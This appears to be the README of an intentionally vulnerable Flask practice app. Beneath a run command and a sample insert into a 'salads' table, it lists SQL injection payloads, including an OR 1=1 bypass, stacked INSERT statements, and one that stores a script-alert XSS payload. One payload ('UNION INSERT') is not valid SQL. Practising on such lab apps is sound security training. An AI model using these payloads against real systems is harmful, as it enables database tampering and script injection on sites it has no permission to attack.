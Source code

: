 # vulnerable_company

'''
flask --app run server
'''

INSERT INTO salads (name, price, description) VALUES ('Salad Name', 12.99, 'Salad description')

' or 1=1; -- 

' OR 1=1 UNION INSERT INTO salads (name, price, description) VALUES ("afsdfasdf", 2, "asdfs");--

'; INSERT INTO salads (name, price, description) VALUES ("afsdfasdf", 2, "asdfs");--

'; INSERT INTO salads (name, price, description) VALUES ("<script>alert('hello')</script>", 2, "asdfs");--